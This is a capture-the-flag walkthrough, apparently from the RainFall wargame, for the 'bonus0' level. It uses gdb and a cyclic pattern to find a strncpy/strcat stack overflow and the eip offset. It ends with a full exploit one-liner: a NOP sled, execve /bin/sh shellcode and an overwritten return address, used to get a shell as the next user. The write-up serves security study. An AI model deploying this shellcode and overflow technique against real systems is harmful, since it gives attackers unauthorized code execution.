 # Bonus0 Walkthrough

## Analyzing the Program with GDB or Ghidra

1. **Disassemble the program functions**:
    First, we `disas main` using gdb and after, `info functions`:
    We can see that there is functions :
    - `p` : reads user input and copies it to a buffer
    - `pp` : calls p() twice and then concatenate 2 buffers
    - `main` : calls pp() and prints the result

## Running the program

1. **Execute the Program with the Correct Input**:
    We can also use `ltrace ./bonus0`

    We ran the program with the following command:  
    ```bash
    bonus0@RainFall:~$ ./bonus0
    - 
    yo
    - 
    yo
    yo yo
    ```

    ```bash
    bonus0@RainFall:~$ ./bonus0 
    - 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    - 
    bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
    aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb��� bbbbbbbbbbbbbbbbbbbb���
    Segmentation fault (core dumped)
    ```

    it segfaults with a long strings.

    - Problems here : `disas main` + `disas pp` + `disas p`
        - On p() : `read` function read till 4096bytes but strncpy copied 20bytes, we can overflow the tmp buffer.
        - On pp() : `strcat` used without verifying if its less than 54bytes.

2. **Trying to overflow the RET value**
    - Lets try to know where we can try to write : 
    `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag`

    Here we found that we overwritten on the `eip` register at the address `0x41336141`, its : `A3aA` but upside down we have to find `Aa3A`. 

    9th position!

    search for the 9th position, and simply replace this address by the address of our shellcode.
    Write over `eip` address and replace it by a random address betwenn the start address of our buffer (+61bytes) and the end of our padding.

    - Step1: NOP Sled + shell code anywhere greater than 61bytes
    ```bash
        `\x90" * 100` : NOP sled instructions qui augmente mes chances de succes en cas de decalage dans l'adresse exacte.
    ```

    - Step2:  Find our buffer[4104] address in order to determine the address between the start of our buffer + 61 and the end of the NOP sled instructions.
    ```bash
    (gdb) disas p
    [...] 
    0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax     <-------> buffer[4104] reference comme une zone de la stack situee a un deplacement negatif par rapport a %ebp, just do `print 0x1008`

    (gdb) b *0x080484d0
    Breakpoint 1 at 0x80484d0
    (gdb) r

    (gdb) x $ebp-0x1008
    0xbfffe670:     0x00000000
    ```

    - Choose an address between +61 and +100 because of the concatenation greater than [54], lets choose +100 : 
    ```bash
    (gdb) x $ebp-0x1008+100
    0xbfffe6d4:     0x00000000
    ```

    9 + 7 = 16 + 4bytes (address of shellcode) = 20 (because of the localbuffer[20])

    Exploit is : 
    ```bash
    (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd4\xe6\xff\xbf" + "B" * 7'; cat -) | ./bonus0
    ```

## Moving to bonus1

1. **Swith User to bonus1**:
    Run ```su bonus1```

2. **Authenticate with the Password**:
    We used the password we found.